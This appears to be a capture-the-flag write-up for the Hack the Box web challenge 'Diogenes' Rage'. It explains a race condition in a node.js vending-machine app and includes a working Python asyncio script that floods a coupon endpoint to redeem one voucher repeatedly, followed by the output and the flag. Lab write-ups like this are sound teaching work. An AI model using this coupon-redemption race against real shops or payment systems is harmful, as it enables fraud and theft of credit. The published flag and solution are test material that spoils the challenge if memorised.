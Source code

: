# Writeup "Diogenes' Rage"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/diogenes-rage              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-diogenes-rage-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-28                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> __                                                   </td></tr>
</table>

## Description

> Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

## Solution

The application to be analyzed contains a _JavaScript_ frontend and a _node.js_ backend. Furthermore, a _SQLite_ database is used. The frontend displays a vending machine containing nine different products. Additionally, the user has one coupon with the code `HTB_100` which is worth 1 credit. All products cost less than 1 credit except the product at position `C8`, which costs 13.37 credits. In the source code we can see that the frontend will output the flag if the user buys product `C8`. We therefore have to find a way to get a sufficient number of credits.

<p align="center">
   <img src="includes/diogenes-rage-01.png" />
</p>

It seems like there are no injection vulnerabilities and we cannot discover any other way to get around the system. So we read through the official discussion page. The comments there hint at exploiting a racing condition. By sending many requests at once, we are able to redeem the same voucher several times before it is deactivated in the database. This is possible because the JS function in `index.js` which handles the request has the `async` keyword.

A web search yielded a writeup of this challenge[^1] and a page explaining racing contitions in node.js[^2]. Based on these resources, we can start to create or own solution. The key is to send as many voucher redemption requests as quickly as possible. This can be done in several different ways and after a web search we decide on using the library `asyncio`[^3][^4] (also, the writeups mentioned above use the library `multiprocessing` and we want to develop our own solution).

After a lot of trial and error, we managed to develop the following solution:

``` python
import httpx
import asyncio
import functools

challenge_url = "http://206.189.117.48:30502"
coupon_endpoint = "/api/coupons/apply"
purchase_endpoint = "/api/purchase"
purchase_data = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

async def buyProduct(cookies=None):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=purchase_endpoint, data=purchase_data)
      print("getnew: ", response.text)
      return response.cookies

async def redeemCoupon(cookies):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=coupon_endpoint, data=coupon_data)
      if response.status_code == 200:
         return 1
      else:
         return 0

async def redeemManyCoupons(cookies):
   tasks = []
   for i in range(20):
      tasks.append(asyncio.create_task(redeemCoupon(cookies)))

   results = await asyncio.gather(*tasks)
   return functools.reduce(lambda a, b: a+b, results)

def main():
   for i in range(100):
      cookies = asyncio.run(buyProduct())
      result = asyncio.run(redeemManyCoupons(cookies))
      if result >= 14:
         asyncio.run(buyProduct(cookies))
         exit()

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"flag":"HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}","message":"Thank you for your order! $6.63 coupon credits left!"}
```

Therefore, the flag is:

```
HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}
```

### Sources

[^1]: https://infosecwriteups.com/this-is-why-you-should-always-check-for-race-conditions-even-in-javascript-410b6021ad1a
[^2]: https://stackoverflow.com/questions/21438207/can-node-js-code-result-in-race-conditions
[^3]: https://realpython.com/async-io-python
[^4]: https://stackoverflow.com/questions/27435284/multiprocessing-vs-multithreading-vs-asyncio-in-python-3
